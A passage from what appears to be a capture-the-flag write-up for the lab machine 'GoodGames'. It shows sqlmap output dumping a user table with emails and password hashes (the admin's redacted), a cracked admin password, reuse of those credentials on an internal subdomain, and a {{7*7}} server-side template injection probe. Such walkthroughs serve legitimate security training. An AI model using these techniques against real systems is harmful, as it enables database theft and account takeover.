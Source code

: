 ```bash
Database: main
Table: user
[2 entries]
+----+-------+---------------------+----------------------------------+
| id | name  | email               | password                         |
+----+-------+---------------------+----------------------------------+
| 1  | admin | admin@goodgames.htb | 2b-finditonyourown-7e7cb8ec |
| 2  | baba  | baba@goodgames.htb  | 432d3e19c9fcec7489892249118485c9 |
+----+-------+---------------------+----------------------------------+

[06:42:57] [INFO] table 'main.`user`' dumped to CSV file '/home/babayaga/.local/share/sqlmap/output/goodgames.htb/dump/main/user.csv'
[06:42:57] [INFO] fetched data logged to text files under '/home/babayaga/.local/share/sqlmap/output/goodgames.htb'

[*] ending @ 06:42:57 /2022-03-11/
```

### Cracking hash


=> Hash: 2b-finditonyourown-7e7cb8ec
=> Type: md5
=> Value: su-finditonyourown-or

### Logging in as admin
{{<figure src="/images/goodgames/new-option.png" title="Link to new subdomain">}}





## http{?:}//int-finditownyourown-tor.goodgames.htb

### Webpage
{{<figure src="/images/goodgames/new-option.png" title="Flask Dashboard Login Page">}}

Reusing the previous credentials

### Authenticated
{{<figure src="/images/goodgames/subdomain-webpage.png" title="Logged in as admin">}}

### SSTI
*   Found when updating profile under settings
[A Pentester’s Guide to Server Side Template Injection (SSTI) | Cobalt Blog](https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)


```text
Payload: {{7*7}}
```

{{<figure src="/images/goodgames/ssti.png" title="SSTI">}}
